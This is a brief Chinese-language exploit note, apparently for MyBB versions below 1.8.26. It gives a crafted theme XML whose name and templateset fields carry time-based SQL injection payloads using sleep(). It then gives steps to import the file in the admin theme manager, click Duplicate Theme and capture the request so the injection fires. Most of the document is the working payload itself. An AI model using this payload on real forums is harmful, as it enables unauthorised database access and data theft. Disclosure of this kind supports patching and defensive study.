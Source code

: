 <languages  />

影響版本
--------

    < 1.8.26

漏洞利用
--------

在後台主題管理處導入構造的惡意xml

    <?xml version="1.0" encoding="UTF-8"?>
    <theme name="1' and sleep(10) and '" version="1825">
    <properties>
    <templateset>-2' or sleep(0.01) or '</templateset>
    <editortheme><![CDATA[mybb.css]]></editortheme>
    <imgdir><![CDATA[images]]></imgdir>
    <logo><![CDATA[images/logo.png]]></logo>
    <tablespace><![CDATA[5]]></tablespace>
    <borderwidth><![CDATA[0]]></borderwidth>
    <color><![CDATA[]]></color>
    <disporder><![CDATA[a:7:{s:10:"global.css";i:1;s:10:"usercp.css";i:2;s:9:"modcp.css";i:3;s:16:"star_ratings.css";i:4;s:14:"showthread.css";i:5;s:17:"thread_status.css";i:6;s:8:"css3.css";i:7;}]]></disporder>
    </properties>
    <stylesheets>
    </stylesheets>
    <templates>
    </templates>
    </theme>

點擊Duplicate Theme,抓包，成功延时注入（導出主題也會存在該注入）